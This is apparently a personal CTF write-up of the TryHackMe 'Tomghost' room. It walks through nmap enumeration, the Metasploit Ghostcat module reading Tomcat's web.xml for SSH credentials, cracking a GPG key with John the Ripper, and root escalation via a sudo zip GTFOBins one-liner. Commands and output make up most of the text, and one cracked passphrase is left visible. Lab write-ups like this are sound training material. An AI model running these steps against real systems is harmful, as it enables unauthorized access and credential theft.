 ```yaml
---
title: "Tomghost"
date: 2025-01-23
image: /assets/img/tryhackme/Tomghost/Tomghost_image.jpg
description: Writeup of the TryHackMe-CTF Tomghost
categories: [TryHackMe, Easy]
tags: [linux, enumeration, vulnerability, gpg, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Tomghost</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/tomghost">https://tryhackme.com/r/room/tomghost</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Tomghost.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.142.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:12 EST
Nmap scan report for 10.10.142.154
Host is up (0.039s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,53,8009,8080 10.10.142.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:13 EST
Nmap scan report for 10.10.142.154
Host is up (0.040s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```
from here I started with port 8080 because the `Tomcat/9.0.30` sounds intersting.

## Port 8080 Analysis
We can see a default installation of Apache Tomcat with version 9.0.30. A quick Google serach for potential vulnerabilites gave me an <a href="https://www.exploit-db.com/exploits/49039">exploit-db</a> entry. From here I started Metasploit and searched for a vulnerability called `ghostcat`.
```bash
msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read
```
This seemed promising, so I loaded the module, set the required options and ran the exploit (I cutted the exploit output for readability):
```bash
msf6 auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)

msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts 10.10.142.154
rhosts => 10.10.142.154

msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
[*] Running module against 10.10.142.154

[*** removed ***]

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:[removed]
  </description>

</web-app>

[+] 10.10.142.154:8009 - File contents save to: /home/kali/.msf4/loot/20250123051937_default_10.10.142.154_WEBINFweb.xml_229749.txt
[*] Auxiliary module execution completed
```
The output provide some credentials which we could use to connect with ssh:
```bash
$ ssh skyfuck@10.10.142.154
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{*** removed ***}
```
I was able to retrieve the user flag and found another username, so let's get his credentials

## Privilege Escalation Merlin
There where two intersting files:
```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```
I tried to crack the private keys hash to decrypt the `credential.pgp`:
```bash
$ gpg2john tryhackme.asc > hashes
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
  Using default input encoding: UTF-8
  Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
  Cost 1 (s2k-count) is 65536 for all loaded hashes
  Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
  Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  alexandru        (tryhackme)
  1g 0:00:00:00 DONE (2025-01-23 05:26) 16.66g/s 17866p/s 17866c/s 17866C/s [removed]
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.
$ gpg --import tryhackme.asc
  gpg: keybox '/home/kali/.gnupg/pubring.kbx' created
  gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
  gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
  gpg: key 8F3DA3DEC6707170: secret key imported
  gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
  gpg: Total number processed: 2
  gpg:               imported: 1
  gpg:              unchanged: 1
  gpg:       secret keys read: 1
  gpg:   secret keys imported: 1
$ gpg --decrypt credential.pgp
  gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
  gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
        "tryhackme <stuxnet@tryhackme.com>"
  merlin:[removed]
```
With the credentials I was able to ssh in as merlin
```bash
$ ssh merlin@10.10.142.154
merlin@ubuntu:~$
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/zip/">gftobins</a> gave me all I needed:
```bash
$ TF=$(mktemp -u)
$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# cd /root
# cat root.txt
THM{*** removed ***}
```

solved! :)

